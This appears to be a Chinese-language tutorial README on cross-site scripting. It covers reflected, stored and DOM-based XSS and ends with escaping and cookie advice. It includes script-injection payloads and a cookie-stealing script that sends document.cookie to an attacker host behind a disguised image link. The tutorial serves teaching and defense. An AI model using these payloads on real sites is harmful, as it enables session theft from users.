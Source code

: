# xss

## xss全称：
   
**跨站脚本攻击**

## xss核心：

**xss通过网站没有对用户输入进行过滤或者转义的缺点，注入js代码，从而获取用户信息的攻击方式**

## 发生xss的根本原因：
   
**过于信任用户提交的数据！！！ 记住： 对于用户提交数据绝不可能信任**

## 常见的xss攻击分类：
    
### 反射型xss攻击

解释：也叫非持久性跨站脚本攻击，漏洞产生的原因是攻击者注入的数据反映在响应中。

比如在发送消息中，

接口为： http://www.xxx.com/api/send?con=xxx;

正常请求: 
            http://www.xxx.com/api/send?con=baidu

xss请求：
            'http://www.xxx.com/api/send?con='<'script>alert("foolish!")</script'>'
接收者接收消息显示的时候将会弹出警告窗口

***

### 存贮型xss攻击

解释：又称为持久型跨站点脚本，它一般发生在XSS攻击向量(一般指XSS攻击代码)存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器,脚本执行。持久的XSS相比非持久性XSS攻击危害性更大,因为每当用户打开页面，查看内容时脚本将自动执行。谷歌的orkut曾经就遭受到XSS。

简单例子：

从名字就可了解到存储型XSS攻击就是将攻击代码存入数据库中，然后客户端打开时就执行这些攻击代码。例如留言板

留言板表单中的表单域：`<input type=“text” name=“content” value=“这里是用户填写的数据”>`

正常操作：

用户是提交相应留言信息；将数据存储到数据库；其他用户访问留言板，应用去数据并显示。

非正常操作：

攻击者在value填写`<script>alert(‘foolish!’)</script>或者html其他标签（破坏样式。。。）、一段攻击型代码`；

将数据存储到数据库中；

其他用户取出数据显示的时候，将会执行这些攻击性代码
***
### DOMBasedXSS（基于dom的跨站点脚本攻击）

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。

　　通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

　　前提是易受攻击的网站有一个HTML页面采用不安全的方式从document.location 或document.URL 或 document.referrer获取数据（或者任何其他攻击者可以修改的对象）。
```
<HTML>
<title>Welcome!</title>
Hi
<script>
var pos=document.URL.indexOf("name=")+5;
document.write(document.URL.substring(pos,document.URL.length));
</script>
<BR>
Welcome to our system
…
</HTML>
```

这个例子是个欢迎页面，name是截取URL中get过来的name参数

正常操作：

http://www.vulnerable.site/welcome.html?name=Joe

非正常操作：

`http://www.vulnerable.site/welcome.html?name=<script>alert(document.cookie)</script>`

　　将产生xss条件。让我们看看为什么：受害者的浏览器接收到这个链接，发送HTTP请求到www.vulnerable.site并且接受到上面的HTML页。受害者的浏览器开始解析这个HTML为DOM，DOM包含一个对象叫document，document里面有个URL属性，这个属性里填充着当前页面的URL。当解析器到达javascript代码，它会执行它并且修改你的HTML页面。倘若代码中引用了document.URL，那么，这部分字符串将会在解析时嵌入到HTML中，然后立即解析，同时，javascript代码会找到(alert(…))并且在同一个页面执行它，这就产生了xss的条件。
***

## 总结：
**通过上面的例子我们可以看出：xss的原因就是我们没有对输入信息就行过滤和转义导致的。 所以，解决它的方法也很简单：对输入信息进行过滤转义。其实对于xss攻击类型无需太多关注，因为之间有太多的耦合性。我们只需知道，xss是如何形成，如何解决即可

## 常见的xss攻击案例：

### 1.简单XSS攻击

留言类，简单注入javascript

有个表单域：`<input type=“text” name=“content” value=“这里是用户填写的数据”>`

1、假若用户填写数据为：`<script>alert('foolish!')</script>（或者<script type="text/javascript" src="./xss.js"></script>）`

2、提交后将会弹出一个foolish警告窗口，接着将数据存入数据库(有没有想过，如果script里包含的是这样一段代码： `document.write('')`,那整个页面都被覆盖)


3、等到别的客户端请求这个留言的时候，将数据取出显示留言时将执行攻击代码，将会显示一个foolish警告窗口。

【将数据改成html标签进行攻击，则会将原本的样式打乱。。。。。。。。】

### 2.盗用cookie

依然和上面场景一致，

用户填写数据为: 
`<script type="text/javascript" src="http://www.xxx.com/xss.js"></script>）`

这个xss.js代码为：

```
<script>
var Str=document.cookie;               //获取cookie
var a =document.createElement('a');        //创建a标签
a.href='http://www.linuxtest.com/test2.php?'+Str;   //攻击者主机
a.innerHTML="<img src='./aa.jpg'>";        //掩护图片
document.body.appendChild(a);              //将标签添加到页面中
</script>

```

那当用户点击这张图片时，用户cookie就会传入到攻击者数据库。

笔者构建了一个xss案例，
self_server代表 正常的web服务<br>
xss_server代表xss攻击服务
***

## 解决xss攻击

1.<label style="color:red">过滤转义：
```
var escape = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '`': '&#x60;'
};
```
</label><br>
    
2.<label style="color:red">cookie里用户信息要进行加密或者对重要用户信息不进行cookie存储</label><br>

主要在下面几个部分：<br>
    1.form区域，表单区域用户填写信息都需转移过滤<br>
    2.url：解析url也许转义过滤



 



    